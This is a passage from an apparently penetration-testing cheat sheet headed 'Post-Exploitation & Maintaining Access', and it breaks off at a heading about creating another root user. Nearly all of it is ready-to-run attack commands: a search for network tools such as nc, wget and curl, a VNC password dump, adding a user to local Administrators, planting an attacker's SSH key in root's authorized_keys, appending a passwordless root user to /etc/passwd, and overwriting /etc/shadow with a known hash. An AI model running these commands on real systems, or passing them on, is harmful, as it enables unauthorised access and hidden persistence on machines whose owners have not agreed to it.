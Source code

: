 ```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access

### Browsing Registry Hives

```bash
hivesh /registry/file
```

### Decrypting VNC Password

```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys

```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another root User
